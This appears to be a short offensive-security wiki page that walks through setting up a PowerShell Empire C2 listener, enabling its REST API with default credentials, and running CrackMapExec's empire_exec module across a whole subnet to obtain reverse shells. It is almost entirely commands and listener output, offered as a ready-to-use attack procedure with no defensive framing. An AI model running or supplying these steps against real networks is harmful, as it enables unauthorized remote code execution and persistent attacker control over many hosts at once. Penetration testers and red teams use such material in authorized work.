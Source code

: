 ```yaml
---
description: >-
  Integrate CrackMapExec with Empire Impacket stager, and get reverse shells
  like a boss.
cover: ../.gitbook/assets/GitBook Covers (1).png
coverY: 0
---
```


# 🟢 CME Reverse Shell with Empire

### Configure Empire Listener

```
(Empire: listeners) > set Name test
(Empire: listeners) > set Host 192.168.20.3
(Empire: listeners) > set Port 9090
(Empire: listeners) > set CertPath data/empire-cert.pem
(Empire: listeners) > run
(Empire: listeners) > list

[*] Active listeners:

 ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
 --    ----              ----                                 -------   ------------   --------    ---------------
 1     rfs_test              http://192.168.20.3:9090                 native    5/0.0

(Empire: listeners) >
```

### Start Empire Listener

```
python empire --rest --user empireadmin --pass Password123!
```

Configure CrackMapExec Empire Option

```
vi ~/.cme/cme.conf:
```

```
[Empire]
api_host=127.0.0.1
api_port=1337
username=empireadmin
password=Password123!
```

### Run CrackMapExec with Empire Module

```
crackmapexec 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=rfs_test
```
